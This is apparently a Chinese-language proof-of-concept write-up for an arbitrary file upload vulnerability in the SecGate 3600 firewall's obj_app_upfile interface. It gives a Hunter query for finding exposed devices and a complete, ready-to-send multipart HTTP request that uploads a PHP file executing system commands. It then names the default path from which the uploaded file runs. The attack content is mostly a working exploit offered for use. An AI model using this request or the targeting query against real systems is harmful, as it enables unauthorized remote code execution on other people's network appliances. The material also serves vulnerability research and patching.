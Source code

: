 # 网神SecGata 3600防火墙obj_app_upfile任意文件上传漏洞

# 一、漏洞简介
<font style="color:rgb(0, 0, 0);">网神 SecGate 3600 防火墙 obj_app_upfile接口存在任意文件上传漏洞，攻击者通过构造特殊请求包即可获取服务器权限。</font>

# <font style="color:rgb(0, 0, 0);">二、影响版本</font>
+ 网神SecGata 3600防火墙

# 三、资产测绘
+ hunter:`app.name="网神 SecGate"&&web.title=="网神SecGate 3600防火墙"`

![1691631315585-e71862e7-a889-460a-b2f7-a14e396c2f9b.png](./img/ubfuoBo-P4aj5Y9L/1691631315585-e71862e7-a889-460a-b2f7-a14e396c2f9b-743981.png)

+ 登录页面

![1691631344474-a4ef0b41-65a2-4221-8212-3ca32e0b0b40.png](./img/ubfuoBo-P4aj5Y9L/1691631344474-a4ef0b41-65a2-4221-8212-3ca32e0b0b40-583233.png)

# 四、漏洞复现
<font style="color:rgb(0, 0, 0);">没有对文件调用进行鉴权，且文件上传路径为可访问路径，造成任意文件上传</font>

```java
POST /?g=obj_app_upfile HTTP/1.1
Host: xx.xx.xx.xx
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 569
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJpMyThWnAxbcBBQc
User-Agent: Mozilla/5.0 (compatible; MSIE 6.0; Windows NT 5.0; Trident/4.0)

------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="MAX_FILE_SIZE"

10000000
------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="upfile"; filename="test.php"
Content-Type: text/plain

<?php system("id");unlink(__FILE__);?>

------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="submit_post"

obj_app_upfile
------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="__hash__"

0b9d6b1ab7479ab69d9f71b05e0e9445
------WebKitFormBoundaryJpMyThWnAxbcBBQc--
```

![1691631427460-499815cb-61ff-42a9-b08f-372c89bab99b.png](./img/ubfuoBo-P4aj5Y9L/1691631427460-499815cb-61ff-42a9-b08f-372c89bab99b-550913.png)

<font style="color:rgb(0, 0, 0);">默认上传路径 </font>`<font style="color:rgb(0, 0, 0);">/secgate/webui/attachements/</font>`<font style="color:rgb(0, 0, 0);"> ， 访问 </font>`<font style="color:rgb(0, 0, 0);">attachements/test.php</font>`<font style="color:rgb(0, 0, 0);"> 文件</font>

![1691631538330-1fdec676-1995-4b7d-84c5-8a5f3e05b79e.png](./img/ubfuoBo-P4aj5Y9L/1691631538330-1fdec676-1995-4b7d-84c5-8a5f3e05b79e-356178.png)



> 更新: 2024-02-29 23:57:16  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/yrkaybyh5yggyktv>